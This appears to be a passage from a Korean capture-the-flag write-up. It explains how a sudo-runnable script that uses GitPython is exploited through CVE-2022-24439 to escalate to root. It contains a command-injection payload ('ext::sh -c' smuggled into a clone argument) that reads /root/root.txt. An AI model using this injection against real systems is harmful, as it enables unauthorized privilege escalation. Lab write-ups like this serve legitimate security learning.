 이 스크립트가 GitPython 라이브러리를 활용하여 Git 작업을 수행한다는 것을 알 수 있는 대목이기 때문에 이 스크립트에서 가장 유용한 정보라고 할 수 있다. 

구글에 `from git import Repo` 의 취약점을 검색하면 [CVE-2022-24439](https://nvd.nist.gov/vuln/detail/CVE-2022-24439)에 관한 내용을 찾아볼 수 있고 이를 악용해 권한 상승을 할 수 있다. 

나는 https://github.com/gitpython-developers/GitPython/issues/1515 여기와 여기 https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858 를 참고했다. 

```sh
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c cat% /root/root.txt% >% /tmp/root'
```
![](https://velog.velcdn.com/images/h3llanut3lla/post/1e3ee081-6a2c-4fd1-b7d1-ed60143190c5/image.png)

이렇게 `sudo`와 함께 상위 명령어를 입력하면 하면 루트로 권한 상승을 할 수 있다. 